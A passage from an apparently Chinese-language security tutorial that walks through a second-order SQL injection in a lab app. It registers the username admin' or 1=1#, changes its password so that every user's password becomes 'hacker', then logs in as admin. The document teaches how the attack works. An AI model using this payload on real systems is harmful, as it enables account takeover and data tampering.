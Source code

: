因此，我们可以采用如下的攻击步骤。

（1）注册一个专门用来攻击的用户名，比如 admin' or 1=1#，密码为 test。

![Drawing 3.png](https://s0.lgstatic.com/i/image/M00/8C/A8/Ciqc1F_y7uyADPwTAAAt1pr_DYg213.png)

图 4：注册新的用户名

（2）登录新注册的账号。

![Drawing 4.png](https://s0.lgstatic.com/i/image/M00/8C/B3/CgqCHl_y7vSAQ8bBAAAv5Nno1cw204.png)

图 5：登录新账号

（3）修改上面注册的用户密码为 hacker。

![Drawing 5.png](https://s0.lgstatic.com/i/image/M00/8C/A8/Ciqc1F_y7vmAOmU8AABWHp3fjoI705.png)

图 6：修改密码

（4）最终用户名 admin' or 1=1# 被注入 SQL 执行，导致所有用户密码都被修改为 hacker。

```
mysql> select * from users;
+----+----------------+----------+
| id | username       | password |
+----+----------------+----------+
|  1 | Dumb           | hacker   |
|  2 | Angelina       | hacker   |
|  3 | Dummy          | hacker   |
|  4 | secure         | hacker   |
|  5 | stupid         | hacker   |
|  6 | superman       | hacker   |
|  7 | batman         | hacker   |
|  8 | admin          | hacker   |
|  9 | admin1         | hacker   |
| 10 | admin2         | hacker   |
| 11 | admin3         | hacker   |
| 12 | dhakkan        | hacker   |
| 14 | admin4         | hacker   |
| 15 | 1              | hacker   |
| 17 | admin' or 1=1# | hacker   |
+----+----------------+----------+
15 rows in set (0.00 sec)
```

（5）尝试用密码 hacker 登录账号 admin，如下所示，登录成功！

![Drawing 6.png](https://s0.lgstatic.com/i/image/M00/8C/B3/CgqCHl_y7wKAQr6TAAE5rTn8WyU344.png)

图 7： 登录成功

你看，从前面一步步地寻找漏洞，到发现 SQL 注入漏洞，并成功利用漏洞登录账号，哪怕不知道正确的密码是什么，也可以登录，这正是 SQL 注入神奇的地方所在。

### 手工注入
